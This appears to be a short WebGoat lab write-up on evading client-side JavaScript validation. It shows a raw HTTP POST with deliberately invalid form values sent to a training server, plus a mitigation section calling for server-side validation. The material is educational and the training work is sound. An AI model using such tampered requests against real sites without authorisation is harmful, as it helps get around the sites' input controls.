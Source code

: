
## Exploitation:

Here's HTTP request which violates client validation and which I've sent to the server:

```
Host: webgoat.hacking-lab.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:30.0) Gecko/20100101 Firefox/30.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://webgoat.hacking-lab.com/attack?Screen=17&menu=1700
Cookie: JSESSIONID=7DC802DCDB873DB1EC4E16008085AA75
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

field1=abcD&field2=1234&field3=abc,+123+ABC&field4=seven+sto&field5=90210cos&field6=ble90210-1111&field7=ble301-604-4882
```

Request was send using Firefox Live HTTP Headers add-on or intercepting proxy like ZAP or Burp could be used.

As seen in body of request, content of forms which violates client-side filter (JavaScript validate() function) was sent.

## Mitigation:

Client-side validation can be used for performance reasons (to avoid requests to server) but never for security reasons because it can be trivially evaded using intercepting proxy or sending request directly without using browser with curl for example). All untrusted input data need to be validated on server side - always. 
